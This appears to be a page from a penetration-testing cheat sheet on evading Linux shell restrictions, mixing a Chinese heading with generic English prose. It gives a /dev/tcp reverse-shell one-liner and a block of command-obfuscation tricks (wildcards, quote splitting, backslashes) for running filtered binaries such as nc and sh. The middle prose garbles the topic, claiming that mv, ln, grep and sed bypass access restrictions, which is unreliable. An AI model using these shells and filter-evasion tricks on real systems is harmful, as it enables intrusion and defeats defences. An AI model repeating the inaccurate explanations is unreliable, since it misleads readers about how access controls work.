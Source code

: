 Keep in mind that using reverse shells for unauthorized access to systems is illegal and unethical. This information is provided for educational purposes only.
```bash
#Trick from Dikline
#Get a rev shell with
(sh)0>/dev/tcp/10.10.10.10/443
#Then get the out of the rev shell executing inside of it:
exec >&0
```
### 绕过路径和禁用词

When conducting a penetration test or trying to gain unauthorized access to a system, it is common to encounter restrictions on certain paths and forbidden words. These restrictions are put in place to prevent unauthorized access and protect the system from potential vulnerabilities.

However, as a hacker, it is important to know how to bypass these restrictions and find alternative paths to achieve your goals. Here are some useful Linux commands that can help you bypass paths and forbidden words:

1. **mv** command: The `mv` command can be used to rename files and directories. By renaming a restricted file or directory to a non-restricted name, you can bypass the restriction and gain access.

2. **ln** command: The `ln` command can be used to create symbolic links. By creating a symbolic link to a restricted file or directory with a non-restricted name, you can bypass the restriction and gain access.

3. **find** command: The `find` command can be used to search for files and directories. By using the `-iname` option, you can search for files and directories regardless of case sensitivity. This can help you bypass restrictions on forbidden words.

4. **grep** command: The `grep` command can be used to search for specific patterns in files. By using the `-i` option, you can perform a case-insensitive search, allowing you to bypass restrictions on forbidden words.

5. **sed** command: The `sed` command can be used to perform text transformations. By using the `s/old/new/gi` syntax, you can replace forbidden words with non-restricted words, bypassing the restrictions.

Remember, bypassing restrictions and gaining unauthorized access to a system is illegal and unethical. These commands should only be used for educational purposes or with proper authorization. Always ensure you have the necessary permissions before attempting any actions on a system.
```bash
# Question mark binary substitution
/usr/bin/p?ng # /usr/bin/ping
nma? -p 80 localhost # /usr/bin/nmap -p 80 localhost

# Wildcard(*) binary substitution
/usr/bin/who*mi # /usr/bin/whoami

# Wildcard + local directory arguments
touch -- -la # -- stops processing options after the --
ls *
echo * #List current files and folders with echo and wildcard

# [chars]
/usr/bin/n[c] # /usr/bin/nc

# Quotes
'p'i'n'g # ping
"w"h"o"a"m"i # whoami
ech''o test # echo test
ech""o test # echo test
bas''e64 # base64

#Backslashes
\u\n\a\m\e \-\a # uname -a
/\b\i\n/////s\h
```